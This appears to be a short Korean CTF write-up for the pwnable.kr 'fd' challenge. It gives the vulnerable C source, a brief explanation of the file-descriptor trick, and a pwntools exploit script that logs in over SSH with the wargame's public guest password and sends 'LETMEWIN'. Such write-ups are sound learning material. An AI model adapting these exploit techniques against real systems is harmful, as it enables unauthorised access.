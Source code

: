 # fd

## fd.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

`argv[1]`에 숫자를 넣어주면 그 수에서 `0x1234`를 빼 그 값을 `fd`로 사용한다. `fd`가 0일 때 `stdin`이다. `argv[1]`에 `0x1234`를 10진수로 넣어주면 된다.

## exploit.py

```python
from pwn import *

context.log_level = 'debug'

shell = ssh('fd', 'pwnable.kr', 2222, password='guest')
p = shell.run('./fd ' + str(0x1234))
p.sendline('LETMEWIN')
p.recv()
```

    현재 `fd` 계정에 접속 불가능해 여기까지만 작성함